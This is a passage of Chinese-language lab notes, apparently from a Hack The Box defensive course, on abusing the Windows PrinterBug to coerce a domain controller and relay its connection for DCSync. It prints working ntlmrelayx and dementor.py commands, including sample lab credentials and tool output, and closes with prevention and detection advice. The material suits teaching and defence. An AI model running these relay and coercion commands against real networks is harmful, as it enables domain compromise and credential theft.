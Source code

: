 `PrinterBug` 的影响是任何启用打印后台处理程序的域控制器都可能通过以下方式之一受到损害：

- 将连接中继到另一个 DC 并执行 DCSync（如果禁用 `SMB Signing` ）
- 强制域控制器连接到配置为 `Unconstrained Delegation` ( `UD` ) 的计算机 - 这会将 TGT 缓存在 UD 服务器的内存中，可以使用以下工具捕获/导出 TGT `Rubeus` 和 `Mimikatz`
- 将连接中继到 `Active Directory Certificate Services` 以获取域控制器的证书。然后，威胁代理可以按需使用证书来进行身份验证并冒充域控制器（例如 DCSync）
- 中继连接以配置中继计算机的 `Resource-Based Kerberos Delegation` 。然后，我们可以滥用委派来以该计算机的任何管理员身份进行身份验证。


## 攻击路径
在此攻击路径中，我们会将连接中继到另一个 DC 并执行 `DCSync` （即列出的第一个妥协技术）。为了使攻击成功，必须关闭域控制器上的 SMB 签名。首先，我们将配置 `NTLMRelayx` 将所有连接转发到 DC2 并尝试执行 DCSync 攻击

```shell
xianzhi@htb[/htb]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

接下来，我们需要使用具有 `NTLMRelayx` 监听功能的 Kali 盒子来触发 `PrinterBug` 。为了重新触发连接，我们将使用 Dementor.py（当从未加入域的计算机运行时，需要任何经过身份验证的用户凭据，在这种情况下，我们假设我们之前已经拿到了 Bob）：

```shell
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123
```
现在，使用 `NTLMRelayx` 切换回终端会话，我们将看到 DCSync 成功。

## 预防
应在所有非打印服务器的服务器上禁用打印后台处理程序。域控制器和其他核心服务器永远不应该具有额外的角色/功能来打开和扩大针对核心 AD 基础设施的攻击面。

此外，还有一个选项可以防止滥用 `PrinterBug` 同时保持服务运行：
禁用注册表项 `RegisterSpoolerRemoteRpcEndPoint` 时，任何传入的远程请求都会被阻止；这就像为远程客户端禁用了该服务一样。将注册表项设置为 1 可以启用它，而设置为 2 则可以禁用它。

## 检测

利用 `PrinterBug` 将留下与域控制器的网络连接的痕迹；然而，它们太通用，无法用作检测机制。使用 `NTLMRelayx` 执行DCSync的情况下，不会生成事件ID `4662` （如DCSync部分所述）；但是，要从 DC2 获取 DC1 的哈希值，DC1 将会发生成功的登录事件。该事件源自 Kali 机器的 IP 地址，而不是域控制器，如下所示：
![[Pasted image 20240718222508.png]]

合适的检测机制始终将来自核心基础设施服务器的所有登录尝试与其各自的 IP 地址（应该是静态的且已知的）相关联。


